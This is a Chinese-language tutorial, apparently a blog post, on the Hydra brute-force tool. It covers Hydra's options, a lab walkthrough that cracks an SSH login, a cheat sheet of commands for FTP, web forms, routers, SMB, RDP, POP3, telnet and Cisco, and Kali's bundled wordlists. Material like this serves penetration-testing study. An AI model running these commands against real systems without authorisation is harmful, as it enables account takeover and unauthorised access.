








## 一、hydra简介

Hydra是一款非常强大的暴力破解工具，它是由著名的黑客组织THC开发的一款开源暴力破解工具。Hydra是一个验证性质的工具，主要目的是：**展示安全研究人员从远程获取一个系统认证权限。**


目前该工具支持以下协议的爆破：
AFP，Cisco AAA，Cisco身份验证，Cisco启用，CVS，Firebird，FTP，HTTP-FORM-GET，HTTP-FORM-POST，HTTP-GET，HTTP-HEAD，HTTP-PROXY，HTTPS-FORM- GET，HTTPS-FORM-POST，HTTPS-GET，HTTPS-HEAD，HTTP-Proxy，ICQ，IMAP，IRC，LDAP，MS-SQL，MYSQL，NCP，NNTP，Oracle Listener，Oracle SID，Oracle，PC-Anywhere， PCNFS，POP3，POSTGRES，RDP，Rexec，Rlogin，Rsh，SAP / R3，SIP，SMB，SMTP，SMTP枚举，SNMP，SOCKS5，SSH（v1和v2），Subversion，Teamspeak（TS2），Telnet，VMware-Auth ，VNC和XMPP。

对于 HTTP，POP3，IMAP和SMTP，支持几种登录机制，如普通和MD5摘要等。

由于Kali中自带Hydra，所以怎么安装就不讲了，下面直接讲如何用它。

## 二、hydra使用方法

```text
语法：Hydra 参数 IP 服务
```


```text
参数：
-l login 小写，指定用户名进行破解
-L file 大写，指定用户的用户名字典
-p pass 小写，用于指定密码破解，很少使用，一般采用密码字典。
-P file 大写，用于指定密码字典。
-e ns 额外的选项，n：空密码试探，s：使用指定账户和密码试探
-M file 指定目标ip列表文件，批量破解。
-o file 指定结果输出文件
-f 找到第一对登录名或者密码的时候中止破解。
-t tasks 同时运行的线程数，默认是16
-w time 设置最大超时时间，单位
-v / -V 显示详细过程
-R 恢复爆破（如果破解中断了，下次执行 hydra -R /path/to/hydra.restore 就可以继续任务。）
-x 自定义密码。
```


```text
service：指定服务名，支持的服务跟协议有：telnet，ftp，pop3等等。
注意：
1.自己创建字典,然后放在当前的目录下或者指定目录。
2.参数可以统一放在最后，格式比如hydra ip 服务 参数。
3.如果能确定用户名一项时候，比如web登录破解，直接用 -l就可以，然后剩余时间破解密码。
4.缺点，如果目标网站登录时候需要验证码就无法破解。
5.man hydra最万能。
6.或者hydra -U http-form等查看具体帮助。
```

## 三、案例分析

**暴破ssh登录密码**

**环境介绍**

> 攻击机：kali
> 装有hydra工具
> 靶机：192.168.154.131
> 安装ssh服务，正常运行

为了测试方便，我们创建两个简单的字典文件，如下：



**开始爆破**

根据命令参数，组织参数格式如下：

```text
root@kali:/mnt# hydra -L user.txt -P password.txt -t 2 -vV -e ns 192.168.154.131 ssh
```

**破解成功**

因为字典数量比较少，我们可以轻易的破解成功，但是实际情况下，我们可能需要很久。



**测试登录**

使用得到的用户名/密码登录服务器，登录成功



## 三、各种协议破解汇总

**FTP协议破解**

```text
破解ftp：
 
hydra -L 用户名字典 -P 密码字典 -t 6 -e ns IP地址 -v
```

**http协议破解**

```text
get方式提交，破解web登录：
 
hydra -L 用户名字典 -P 密码字典 -t 线程 -v -e ns IP地址 http-get /admin/
hydra -L 用户名字典 -P 密码字典 -t 线程 -v -e ns -f IP地址 http-get /admin/index.php
 
post方式提交，破解web登录：
 
hydra -f -l 用户名 -P 密码字典 -V -s 9900 IP地址 http-post-form "/admin/index.php?action=login:user=USER&pw=PASS:"
 
 
#/index.php …这个是登录的 url
#后门是POST的数据 其中的用户名密码使用 USER PASS 来代替
#然后是如果登录出错 会出现的字符 。。。然后开始破解
```

**https协议破解**

```text
破解https
 
hydra -m /index.php -l 用户名 -P 密码字典.txt IP地址 https
```

**路由器破解**

```text
hydra -l admin -x 6:10:1a.~!@#$%^&()-= -t 8 192.168.1.1 http-get /
-l admin 为尝试破解的用户名。
 
# -x 6:10:1a. 表示枚举的密码由 数字、小写字母和单字符’.'等等组成，长度为 6 - 10 位。-t 8 表示分 8 个并行任务进行爆破尝试。192.168.1.1 为 Router 地址。http-get 为破解方式（协议）
```

**http-proxy协议破解**

```text
破解http-proxy：
 
hydra -l admin -P 字典.txt http-proxy://IP地址
```

**smb破解**

```text
破解smb：
 
hydra -l 用户名字典 -P 密码字典 IP地址 smb
```

**Windows远程桌面**

```text
破解rdp(windows远程登录)：
 
hydra ip地址 rdp -l administrator -P 密码字典.txt -V
```

**邮箱pop3**

```text
破解邮箱pop3：
 
hydra -l 用户名 -P 密码字典.txt my.pop3.mail pop3
```

**telnet破解**

```text
hydra ip地址 telnet -l 用户字典.txt -P 密码字典.txt -t 32 -s 23 -e ns -f -V
```

**语音通讯工具teamspeak**

```text
hydra -l 用户名字典 -P 密码字典.txt -s 端口号 -vV ip teamspeak
```

**cisco**

```text
hydra -P 密码字典 IP地址 cisco
hydra -m cloud -P 密码字典 IP地址 cisco-enable
```

## **四、Kali自带密码字典**

暴力破解能成功最重要的条件还是要有一个强大的密码字典！Kali默认自带了一些字典，在 /usr/share/wordlists 目录下



**dirb**



```text
big.txt #大的字典
small.txt #小的字典
catala.txt #项目配置字典
common.txt #公共字典
euskera.txt #数据目录字典
extensions_common.txt #常用文件扩展名字典
indexes.txt #首页字典
mutations_common.txt #备份扩展名
spanish.txt #方法名或库目录
others #扩展目录，默认用户名等
stress #压力测试
vulns #漏洞测试
```

**dirbuster**



```text
apache-user-enum-** #apache用户枚举
directories.jbrofuzz #目录枚举
directory-list-1.0.txt #目录列表大，中，小 big，medium，small
```

**fern-wifi**


```text
common.txt #公共wifi账户密码
```

**metasploit**

metasploit下有各种类型的字典



**wfuzz**

模糊测试，各种字典

